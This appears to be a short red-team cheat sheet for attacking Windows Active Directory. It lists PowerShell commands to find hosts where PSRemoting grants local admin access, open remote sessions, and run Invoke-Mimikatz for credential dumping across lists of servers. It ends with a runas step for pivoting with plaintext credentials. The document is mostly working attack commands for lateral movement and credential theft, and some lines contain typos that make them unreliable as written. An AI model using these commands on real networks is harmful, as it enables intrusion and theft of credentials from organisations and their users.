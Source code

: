 ## Search for PSRemoting Capability

```powershell
PS C:\ad\Tools> . .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\ad\Tools> Find-PSRemotingLocalAdminAccess
```

## Enter a PSRemote Session

```powershell
$sess = New-PSSession -ComputerName computer.local
```


## Execute Commands Remotely
Use -Credential to pass a username/password
```powershell
#use to execute commands or scriptblocks
Invoke-Command -CompuerName namehere -ScriptBlock {whoami;hostname}
Invoke-Command -Scriptblock{Get-Process} -ComputerName(Get-Content<list_of_servers>)


#Use below to execute scripts from files
Invoke-Command -FilePath C:\scripts\Invoke-Mimikatz.ps1 -ComputerName(Get-Content<list_of_servers>)


#Use below to execute locally loaded function on the remote machines:
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName(Get-Content<list_of_servers>)


#In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName(Get-Content<list_of_servers>) -ArgumentList


#Below, a function call within the script is used:
Invoke-Command -Filepath C:\scripts\Invoke-Mimikatz.ps1 -ComputerName(Get-Content<list_of_servers>)


#Use below to execute "Stateful" commands using Invoke-Command:
$Sess=New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc=Get-Process} 
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name} 
#or to load a module onto the remote machine
Invoke-Command -Session$Sess -FilePath c:\AD\Tools\hello.ps1
#then enter into PSSession and use commands from that module 
Enter-PSSession -Session $sess
```

## For Plaintext Credentials

Use runas to spawn a powershell  session as that user

```cmd
runas /noprofile /user:example\username cmd
```